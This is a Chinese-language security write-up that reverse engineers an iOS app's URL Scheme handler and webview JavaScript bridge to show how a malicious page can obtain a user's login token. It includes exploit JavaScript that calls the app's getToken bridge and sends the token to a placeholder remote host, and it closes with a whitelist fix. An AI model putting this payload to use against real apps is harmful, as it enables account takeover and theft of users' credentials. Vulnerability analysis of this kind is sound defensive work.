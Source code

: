 ```yaml
---
title: 利用 URL Scheme 远程窃取用户 token
publish_date: 2022-10-28
---
```


### 什么是 URL Scheme？

- URL，我们都很清楚，`http://www.apple.com` 就是个 URL，我们也叫它链接或网址；
- Schemes，表示的是一个 URL 中的一个位置——最初始的位置，即 `://`之前的那段字符。比如 `http://www.apple.com` 这个网址的 `Schemes` 是 `http`；
- URL Scheme，`tel://10010` 则是一个最简单的 URL Scheme，通过这个 URL Scheme 可以在 iOS 设备任何应用中调起电话 App，并且拨打指定号码。

应用可以通过自定义的 URL Scheme 协议可以实现进程间通信，其具体表现为应用 A 可以通过 URL Scheme 调起应用 B，并且传入携带的参数。

首先查看应用已注册的 URL Scheme，可以在应用安装包 /info.plist 文件中查找。

![scheme_1.png](../url_scheme_attack_token/url_scheme_attack_token_1.png)

URL Scheme 回调函数：

```objective-c
// NS_DEPRECATED_IOS(2_0, 9_0, "Please use application:openURL:options:") __TVOS_PROHIBITED
- (BOOL)application:(UIApplication *)application handleOpenURL:(NSURL *)url;

// NS_DEPRECATED_IOS(4_2, 9_0, "Please use application:openURL:options:") __TVOS_PROHIBITED
- (BOOL)application:(UIApplication *)application openURL:(NSURL *)url sourceApplication:(nullable NSString *)sourceApplication annotation:(id)annotation;

// NS_AVAILABLE_IOS(9_0)
- (BOOL)application:(UIApplication *)app openURL:(NSURL *)url options:(NSDictionary<UIApplicationOpenURLOptionsKey, id> *)options;
```

如果外部通过 URL Scheme 调起客户端，那么一定会走这三个回调函数中的其中一个（跟 iOS 系统版本有关），所以我们就从这回调函数开始入手分析逻辑。

### 分析过程

应用二进制拖进 IDA ，接下来开始一步一步逆向分析代码

第一个当然是寻找 `[AppDelegate application:openURL:options:]` 方法：
![scheme_2.png](../url_scheme_attack_token/url_scheme_attack_token_2.png)

跟进 `+[AppSetupConf application:openURL:options:]` 方法：
![scheme_4.png](../url_scheme_attack_token/url_scheme_attack_token_3.png)

这个方法里面既调用了 `-[AppsFlyerTracker handleOpenUrl:options:]`，还调用了 `+[OKBLaunchHandler handleOpenURL:options:]` ，这个时候谷歌一下就可以确认，`AppsFlyerTracker` 是第三方统计、数据追踪的框架。

所以我们跟进 `+[OKBLaunchHandler handleOpenURL:options:]` 方法中：
![scheme_3.png](../url_scheme_attack_token/url_scheme_attack_token_4.png)

点击 `+[OKBLaunchHandler eventWithURL:type:]` 方法可以看到大概逻辑应该是做事件统计追踪的方法，所以我们继续跟进 `+[OKBLaunchHandler dispatchWithURL:coldLaunch:type:]` ，关键逻辑：
![scheme_5.png](../url_scheme_attack_token/url_scheme_attack_token_5.png)

接下来我们仔细分析下这段代码

首先变量 a3 是方法中第一个参数，通过方法名判断 a3 应该是我们传入的 URL Scheme，接着从代码 57 - 73 行，这部分是在判断传入 URL Scheme 的 scheme 是不是 http 或者 https，不满足条件时，继续执行；当满足条件时，直接 goto LABEL_15； 也就是直接结束该方法。

代码 74 - 78 行，判断了传入的 URL Scheme 是否存在 host，不存在则直接结束方法。

分析到这里，我们的 URL Scheme 大概应该是这样的：demo_scheme://xxx

接着代码 81 行调用了 `+[OKBLaunchHandler classWithHost:]` 方法，参数为我们传入 URL Scheme 的 host 字符串，并且还有一个返回值，跟进方法进行分析：
![scheme_6.png](../url_scheme_attack_token/url_scheme_attack_token_6.png)

这个方法看着一顿操作猛如虎，其实就是判断传入字符串是否包含 `_`，然后删除这个 `_`，最后赋值到变量 v21 把 `OKBLaunchEventHandler_` 和 v21 字符串拼接，然后判断这个类是否存在，如果存在，则返回这个类。

我们在 IDA Function View 里面搜索 ``OKBLaunchEventHandler_`，发现只可能拼接`Web`或者`MerchanthomeCom`：

![scheme_7.png](../url_scheme_attack_token/url_scheme_attack_token_7.png)

我们看到 `OKBLaunchEventHandler_Web` 有一个 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]` 的方法，看起来可以打开传入的网页 URL。所以分析到这里，我们的 URL Scheme 暂时应该是这样的：`demo_scheme://web_?`。

继续分析 `+[OKBLaunchHandler dispatchWithURL:coldLaunch:type:]` 的 85 - 107 行代码：
![scheme_8.png](../url_scheme_attack_token/url_scheme_attack_token_8.png)

接着调用了 `+[OKBJSHandle analysisParamWithQuery:]` 方法，并将 URL Scheme 的参数当作此方法参数传入。其实该方法逻辑就是将 URL Scheme 的参数变成一个字典并且返回。紧接着调用 `-[OKBLaunchHandlerModel setParams:]` 将字典赋值到 `OKBLaunchHandlerModel` 的 `params` 属性中 。

接着 99 - 104 行代码是判断 `OKBLaunchEventHandler_Web` 是否实现了 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]` 方法，因为这个方法我们刚在 IDA Function View 中看到了，所以直接调用 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]`，此时参数是 `OKBLaunchHandlerModel` 对象，我们要记得这个对象是有一个 params 属性的，且刚被赋值。

此时我们暂且不管这个字典的内容应该是什么，暂且不管 URL Scheme 的参数部分如何构造，先继续分析代码。

跟进 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]` 方法：
![scheme_9.png](../url_scheme_attack_token/url_scheme_attack_token_9.png)

该方法逻辑比较简单，大概是判断传入 `OKBLaunchHandlerModel` 对象的 `params` 字典是否包括 `url` 键，如果包括的话，`url` 键对应的值是否以`http` 或者 `https` 开头，如果条件均满足，则调用 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]`。

在 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]` 中逻辑简单，直接打开了一个新的控制器，并且加载传入的 url。
![scheme_10.png](../url_scheme_attack_token/url_scheme_attack_token_10.png)

所以此时我们希望构造的 URL Scheme 格式为：`demo_scheme://web_?url=xxx`。

至此我们搞清楚了应用如何校验传入的 URL Scheme，并且我们应该如何构造 URL Scheme 可以打开自定义网页。

做到这一步我们先验证下之前的猜想，看看效果：

在 Safari 浏览器输入 `demo_scheme://web_?url=https://www.baidu.com`，Safari 调起应用并且打开了指定的 `https://www.baidu.com`：
![scheme_11.png](../url_scheme_attack_token/url_scheme_attack_token_11.png)

别急，现在我们只完成了漏洞利用分析的第一步。

接着我们来看下是否可以通过 js 调用应用的敏感接口。查看 `-[OKBWebViewController didReceiveScriptMessage:]` 方法，该方法是当 Native 收到 js 调用时的处理函数：
![scheme_12.png](../url_scheme_attack_token/url_scheme_attack_token_12.png)

此方法的参数是一个 `WKScriptMessage` 对象，该对象有一个 body 属性，body 就是 js 调用 Native 传入的参数。

通过分析伪代码可以看到进行了判断 body 的值是否是 `getToken` ，如果是的话，就调用 `-[OKBWebViewController p_callHandler:doSomeThing:completionHandler:]` 方法。

该方法三个参数，第一个是一个 js 传入的参数，也就是 `WKScriptMessage` 的 body 属性；第二个参数是一个代码块；第三个参数为空。

查看 `-[OKBWebViewController p_callHandler:doSomeThing:completionHandler:]` 函数实现：
![scheme_13.png](../url_scheme_attack_token/url_scheme_attack_token_13.png)

方法第二个参数（传入的代码块）被赋值到 v9，并且调用了这个代码块，返回值保存在了 v11。接着调用 `[[OKBWebViewController wkWebView] evaluateJavaScript:completionHandler:]`来执行 `iOS._callBack(xxx)` js 代码。此时我们需要确定 v11，也就是代码块的返回值到底是什么。代码块：
![scheme_14.png](../url_scheme_attack_token/url_scheme_attack_token_14.png)

这里可以看到是获取了用户的登录 token，并且返回；所以执行的 js 伪代码应该是 `iOS._callBack(用户token)`。

到这里我们搞清楚了如何通过 URL Scheme 调起自定义页面，知道了使用 js 调用 Native 如何传递参数，也知道了 Native 如何返回结果到 js 代码，所以我们就可以构造 js 代码来窃取用户的 token，并且发送到远程服务器。

js 代码：

```
<script type="text/javascript">
var action = "getToken";
window.webkit.messageHandlers.JShandle.postMessage(action);
var iOS = {
	_callBack:function ( action, param){
		var httpRequest = new XMLHttpRequest();
		httpRequest.open('GET', 'https://xxx/' + param, true);
		httpRequest.send();
	}
}
</script>
```

这样我们通过 URL Scheme 来调起网页就可以远程获取到用户的 token 了:
![scheme_15.png](../url_scheme_attack_token/url_scheme_attack_token_15.png)

但是这样还不够优雅，我们需要一个网页来调起应用，而不是手动在 Safari 中输入 URL Scheme，这样才可以达到远程攻击的效果。
![scheme_16.png](../url_scheme_attack_token/url_scheme_attack_token_16.png)

这样在用户浏览网页时，便可以自动通过 URL Scheme 调起应用，并且远程窃取用户的 token 发送到服务器。

### 漏洞思路 + 总结

#### 利用过程

首先需要应用注册 URL Scheme

通过 URL Scheme 可以调起攻击者的恶意网页

Natvive 暴露敏感接口供 js 调用

js 窃取用户敏感数据，发送到远程服务器

#### 漏洞成因

应用注册 URL Scheme 供外部调用，并且可以在应用内加载指定网页。

当应用加载攻击者指定网页后，应用未做严格鉴权，导致网页 js 代码调用了应用暴露的敏感 Native 函数。

#### 如何修复

当应用有通过 URL Scheme 调起并打开任意网页功能的需求时，需要对打开网页域名做严格过滤，当非白名单域名时，禁止 js 调用 Native 函数。